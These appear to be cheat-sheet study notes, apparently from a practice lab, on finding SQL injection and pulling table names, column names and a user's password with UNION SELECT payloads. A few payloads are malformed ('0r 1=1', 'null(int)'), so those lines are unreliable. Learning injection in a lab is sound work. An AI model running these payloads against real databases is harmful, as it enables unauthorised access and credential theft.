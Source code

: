 #SQL 

Test for SQL injection by adding `'` and `"` after a query and if there is an error, may be vulnerable.

```
jeremy' or 1=1#
```

or

```
jeremy' 0r 1=1-- -
```
# Union

Can retrieve information from other tables and columns that are not initially defined.

May be hard to determine how many columns so use this technique to determine number of columns returned:

```
jeremy' union select null#
```

```
jeremy' union select null,null#
```

```
jeremy' union select null,null,null#
```

Now can query version of database:

```
jeremy' union select null,null,version()#
```

Query tables in database:

```
jeremy' union select null,null,table_name from information_schema.tables#
```

Query columns in database:

```
jeremy' union select null,null,column_name from information_schema.columns#
```

Now we can select jeremy's password:

```
jeremy' union select null,null,password from injection0x01#
```

Data in column may be integers (null would return errors) and may need to be specified as followed:

```
jeremy' union select null(int),1,null,password from injection0x01#
```

https://portswigger.net/web-security/sql-injection/cheat-sheet

